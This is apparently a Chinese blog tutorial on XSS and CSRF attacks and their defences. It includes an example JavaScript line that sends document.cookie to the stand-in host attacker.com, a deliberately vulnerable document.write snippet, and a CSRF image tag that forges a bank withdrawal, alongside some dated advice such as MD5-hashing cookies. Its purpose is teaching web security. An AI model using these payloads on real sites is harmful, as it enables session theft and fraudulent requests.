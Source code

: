```yaml
---
title: xss和csrf
date: 2018-07-09 11:02:34
tags: 浏览器
---
```


# xss

> cross site scripting 的缩写，即跨站脚本攻击（为了不与 css 混淆）

- 主要分为三类，反射型、保存型和基于 dom 的 xss 攻击。这些漏洞的基本原理都一样，但是确定和利用漏洞方面又存在很大差异。

## 反射型

- 如果一个 web 程序可以动态的显示用户的错误信息，就有可能产生反射型漏洞
- 显著特征是应用程序没有进行任何过滤和净化措施

### 案例

- 如果一个网站的错误消息是这样显示的，www.xxx.com/error.php?message=sorry,an error occurred，然后服务器根据得到的 message，不进行过滤，复制到错误页面的模板<p>sorry,an error occurred</p>，返回给用户
- www.xxx.com/error.php?message=<script>alert(1)</script>，当用户打开错误页面的时候，就会出现<p><script>alert(1)</script></p>，弹出一个消息框

- 当然攻击者不会很傻的只 alert 一些消息，通常 xss 都会伴随会话劫持，截获通过验证的会话令牌。
- 截获用户的会话后，就可以访问该用户授权访问的所有数据和功能
- 比如攻击构造这样一个 url，message 信息如下

```javascript
let i = new Image();
i.src = "http://attacker.com?cookie=" + document.cookie;
```

- 由于浏览器的同源策略，直接向 attacker.com 发送 cookie 是无法获得 www.xxx.com 的 cookie，但是 img，iframe，scipr 标签可以跨域，这就是该漏洞被成为跨站脚本的原因。

## 保存型

- 脚本通常保存在后端数据库，不经过过滤就存储并且显示给用户
- 与反射性的流程不同的是，保存型需要向服务器提出至少两次请求，第一次将含有恶意代码的数据提交给服务器，服务器将数据保存，第二次是受害者访问含有恶意代码的数据，恶意代码执行
- 与反射型不同的是，保存型不需要一个专门设计的 url 来接受 cookie，只需要将含有恶意代码的页面发给用户，等待受害者访问即可。不过也可以用保存型的漏洞来获取用户 cookie 劫持。
- 如果社交论坛存在保存型的 xss 漏洞，黑客将自己的个人信息一栏修改成恶意的 js 代码，该代码实现两个功能，首先受害者先加自己为好友，然后修改受害者的个人信息为该恶意代码。黑客把个人信息保存并提交给服务器，只需要等受害者访问自己的个人信息页面，浏览器就会执行恶意脚本，然后可怕的“蠕虫”就开始了

## 基于 dom 的 xss 漏洞

- 前两种 xss 漏洞，都表现为一种特殊的模式，就是应用程序提取数据并返回给受害者。而基于 dom 的 xss 不具有这种特点，攻击者是借助于 javascript 来展开攻击的

## 案例

```javascript
let url = document.location;
let message = /message=(.+)$/.exec(url)[1];
document.write(message);
// js脚本中这样写，如果攻击者给受害者发送www.xxx.com/error.php?message=<script>alert(1)</script>，也可以展开xss漏洞攻击
```

- 所以写 js 的前端同学注意了，万一写出了有漏洞的代码，这锅得自己背。

## 解决方案

- 过滤一些关键字
- Cookie 防盗，在 Cookie 中防止放入用户名和密码，对 Cookie 信息进行 MD5 等算法进行多次散列存放，必要时还要对 ip 和 cookie 进行绑定，一旦检测异常，立马让用户重新登录；设置 http-only（不能用 js 脚本进行获取）

# csrf

> cross site request forgery 的缩写，即跨站脚本请求伪造

- 顾名思义是，是伪造请求冒充用户在站内的正常操作。
- 我们知道绝大多数网站是通过 cookie 等方式辨识用户身份（包括服务器端 session 的网站，因为 session id 大多也是保存在 cookie），再予以授权。
- 所以要伪造用户的正常操作，最好是通过 xss 或者链接欺骗等途径，让用户再本机（即拥有身份 cookie 的浏览器端）发起用户所不知道的请求（xss 是实现 csrf 的手段之一）

## 案例

- 一论坛网站的发帖是通过 get 请求访问，点击发帖之后 js 把发帖内容拼接成目标 url 并访问：http://example.com/bbs/create_post.php?title=标题&content=内容
- 那么我在论坛发一贴http://example.com/bbs/create_post.php?title=我是脑残&content=哈哈，只要有用户看到这个链接，那么他们的账户就会在不知情的情况下发布了这一个帖子。
- 如果一家银行用以执行转账操作的 url 为 http://www.examplebank.com/withdraw?account=AccoutName&amount=1000&for=PayeeName，那么黑客可以可以再另一个网站上放置如下代码：<img src="http://www.examplebank.com/withdraw?account=Alice&amount=1000&for=Badman">
- 如果有账户名为 alice 的用户访问了恶意站点，而她之前也刚访问过银行不久，登陆信息尚未过期，那么她就会损失 1000 元

## 解决方案

- 如何解决这个问题，过滤用户输入，不允许发布这种含有站内操作 url 的链接，这么做可能有点用，但是阻挡不了 csrf，因为攻击者可以通过 qq 发布这个链接，这样点击到这个链接的用户一样会中招。

- 所以对待 csrf，我们的视角需要和对待 xss 有所不同。csrf 不一定要有站内的输入，因为他不属于注入攻击，而是属于请求伪造。被伪造的请求可以是任何来源，而非一定是站内。

- 过滤请求的处理者
  - 检查 Referer 字段：可以检查是否来源于该域名（但是请求者是可以更改 http 请求头的，他可以给这个任何值）
  - 添加校验 token：也就是请求令牌，由于 csrf 的本质在于攻击者欺骗用户去访问自己设置的地址，所以如果要求再访问敏感数据请求的时候，要求用户浏览器提供不保存在 cookie 中，并且攻击者无法伪造的数据作为校验，那么攻击者就无法执行 csrf 攻击。这种数据通常是表单中的一个数据项。服务器将其生成并附加在表单中，其内容是一个伪乱数。当客户端通过表单提交请求的时候，这个伪乱数也一并提交上去校验。
- 改良站内 api 的设计，对于发布帖子这类创建资源的操作，应该只接受 post 请求，而 get 请求应该只浏览。最好是采用 RESTFUL 风格设计。

# 推荐阅读

- [总结 xss 与 csrf 两种跨站攻击](https://blog.tonyseek.com/post/introduce-to-xss-and-csrf/)

